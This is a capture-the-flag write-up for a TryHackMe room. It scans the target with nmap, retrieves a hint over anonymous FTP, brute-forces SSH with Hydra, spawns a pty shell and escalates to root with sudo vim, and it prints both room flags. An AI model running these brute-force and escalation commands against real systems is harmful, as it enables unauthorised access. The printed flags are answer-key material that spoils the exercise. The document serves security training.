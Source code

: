 Room: https://tryhackme.com/room/easyctf  

> sudo nmap -sV -sS -T5 -A -vv [roomIP]

After the scan is completed, we have the following open ports:  
* On port 21, FTP with Anonymous Login Allowed.
* On port 80, HTTP running on Apache 2.4.18.
* On port 2222, SSH.

Let's take a look at the FTP, since it allows anonymous login.  

> ftp [roomip] 21  

We have a directory called **pub** which holds a file called **ForMitch.txt**.  

> get ForMitch.txt  
> cat ForMitch.txt   

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user,
and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Now we have a possible username for the SSH service, which is mitch.  
We'll use Hydra to try and bruteforce the password.  

> sudo hydra -l mitch -P /usr/share/wordlists/rockyou.txt [roomip] ssh -s 2222 

```
[2222][ssh] host: xx.xx.xx.xxx   login: mitch   password: secret
```

> ssh mitch@[roomip] -p 2222

We can use python to spawn a bash shell  
> python3 -c 'import pty;pty.spawn("/bin/bash")'  

Inside the mitch's home directory we have our first flag.  **[1]**
```
G00d j0b, keep up!
```

The **sudo -l** command reveals us that we have access to **vim** as root.  

According to [GTFObins](https://gtfobins.github.io/gtfobins/vim/), we can escalate our privileges to root by using different methods. 

> sudo vim -c ':!/bin/sh'

```
# whoami
root
```

The second and final flag is located inside the /root/root.txt file. **[2]**
```
W3ll d0n3. You made it!
```

##  

**Note:** I ran a directory bruteforce while I was waiting for nnamp scan and we can access http://machineIP/simple. Maybe another way in? :) 
